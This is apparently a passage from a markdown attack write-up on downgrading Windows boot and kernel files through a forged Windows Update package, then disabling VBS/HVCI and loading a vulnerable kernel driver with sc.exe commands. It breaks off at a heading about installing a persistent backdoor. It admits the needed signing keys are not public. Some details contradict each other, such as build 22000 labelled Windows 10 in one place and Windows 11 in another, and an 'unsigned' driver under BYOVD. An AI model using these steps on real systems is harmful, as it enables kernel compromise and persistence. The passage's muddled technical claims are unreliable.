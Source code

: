#### Step 2: Downgrade Package Creation

Create a Windows Update package (.cab or .msu) containing:
- Older ntoskrnl.exe (vulnerable kernel)
- Older bootmgr (no VBS enforcement)
- Older winload.efi (no Secure Boot hardening)
- Older driver blocklist (allows vulnerable drivers)

**Package Structure:**
```
WindowsUpdate-KB9999999.msu
├── Windows11-KB9999999.cab
│   ├── ntoskrnl.exe (version 10.0.22000.100 - older, vulnerable)
│   ├── bootmgr (version 10.0.22000.100)
│   ├── winload.efi (version 10.0.22000.100)
│   ├── update.mum (manifest file)
│   └── update.cat (catalog signature)
└── WSUSSCAN.cab (metadata)
```

**Critical**: Package MUST be properly signed with a valid Microsoft production signing certificate.

**Important Clarifications**:
- Microsoft Windows Update signing keys have NEVER been publicly leaked (as of 2025)
- Enterprise CA certificates CANNOT sign Windows Update packages (requires Microsoft production signing chain)
- Certificate validation exploits are theoretical with no known public exploits
- This attack requires possession of legitimate Microsoft signing infrastructure (state-level access)

**Realistic Attack Vectors** (extremely difficult):
- Compromise of Microsoft signing infrastructure (APT-level operation)
- Supply chain attack on Microsoft Update build pipeline
- Exploitation of yet-undiscovered certificate validation vulnerabilities in Windows Update

#### Step 3: Bypass VBS/HVCI After Downgrade

Once downgraded to Windows 10 build 22000 (pre-VBS mandatory):

```powershell
# Verify VBS is disabled
Get-ComputerInfo | Select-Object DeviceGuardSecurityServicesRunning

# Should return: {} (empty, VBS disabled)

# Now load unsigned driver (BYOVD)
sc.exe create VulnDriver binPath= "C:\Windows\System32\drivers\vuln.sys" type= kernel
sc.exe start VulnDriver

# Driver loads successfully (HVCI disabled)
```

#### Step 4: Persistent Backdoor Installation
